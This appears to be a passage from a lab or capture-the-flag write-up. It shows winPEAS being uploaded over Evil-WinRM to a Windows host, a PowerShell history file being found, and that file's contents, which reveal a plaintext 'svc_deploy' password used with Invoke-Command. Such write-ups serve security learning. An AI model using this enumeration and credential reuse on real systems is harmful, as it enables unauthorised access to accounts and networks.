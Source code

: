     Kerberos support for Dynamic Access Control on this device has been disabled.

I used [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
and found that there is a PowerShell history file in the `C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine`
folder.

    :::text
    *Evil-WinRM* PS C:\Users\legacyy\Documents> upload winPEAS.bat
    Info: Uploading winPEAS.bat to C:\Users\legacyy\Documents\winPEAS.bat

    *Evil-WinRM* PS C:\Users\legacyy\Documents> .\winPEAS.bat
    Enter PEM pass phrase:
    winPEAS.bat : The system cannot find the batch label specified - SetOnce
        + CategoryInfo          : NotSpecified: (The system cann...ified - SetOnce:String) [], RemoteException
        + FullyQualifiedErrorId : NativeCommandError

    The system cannot find the batch label specified - ColorLineThe system cannot find the batch label specified - ColorLineThe system cannot find the batch label specified - ColorLinePowerShell v2 Version:

    HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\PowerShell\1\PowerShellEngine
        PowerShellVersion    REG_SZ    2.0

    PowerShell v5 Version
    <SNIP>
    Transcriptions Settings:
    Module logging settings:
    Scriptblog logging settings:

    PS default transcript history

    Checking PS history file
     Volume in drive C has no label.
     Volume Serial Number is 22CC-AE66

     Directory of C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine

    03/04/2022  12:46 AM               434 ConsoleHost_history.txt
                   1 File(s)            434 bytes
                   0 Dir(s)   5,256,929,280 bytes free


The file contained a password to run as `svc_deploy` including the account password.

    :::text
    whoami
    ipconfig /all
    netstat -ano |select-string LIST
    $so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
    $p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
    $c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
    invoke-command -computername localhost -credential $c -port 5986 -usessl -
    SessionOption $so -scriptblock {whoami}
    get-aduser -filter * -properties *
    exit
